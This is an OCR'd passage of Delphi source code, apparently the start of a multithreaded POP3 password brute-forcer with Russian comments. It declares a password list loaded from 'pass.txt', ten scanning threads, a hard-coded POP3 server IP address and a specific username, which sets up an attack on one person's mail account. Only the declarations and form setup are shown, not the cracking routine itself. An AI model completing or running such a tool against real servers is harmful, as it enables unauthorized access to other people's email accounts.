     unit Unit1;
     
    interface
     
    uses
      Windows, Messages, SysUtils, Classes, Graphics, Controls, Forms, Dialogs,
      ComCtrls, StdCtrls, WinSock;
     
    type
      TForm1 = class(TForm)
        Button1: TButton;
        ProgressBar1: TProgressBar;
        procedure Button1Click(Sender: TObject);
        procedure FormCreate(Sender: TObject);
      private
        { Private declarations }
      public
        { Public declarations }
    end;
     
    // Описание процесса
    type
      TScan = class(TThread)
        sock2 : TSocket;
        addr:TSockAddrIn;
        WSAData : TWSAData;
      private
        procedure CScan;
      protected
        procedure Execute; override;
    end;
     
    var
      Form1: TForm1;
      // Массив процессов
      Sock : array[1..255] of TScan;
      Rez : boolean = false;
      // Кол-во запущенных процессов на данный момент
      I0 : Integer;
      // Номер текущего пароля
      I : Integer;
      // TStringList с паролями
      PassList : TStringList;
     
     
    const
      FilePass = 'pass.txt'; // Файл с паролями в каталоге проги
      ProcCount = 10; // кол-во процессов
      POP3serv = '212.42.64.13'; // POP3 server (отпингованый)
      User = 'dndanil';
     
    implementation
    {$R *.DFM}
     
    procedure TForm1.FormCreate(Sender: TObject);
    begin
      PassList:=TStringList.Create;
    end;
     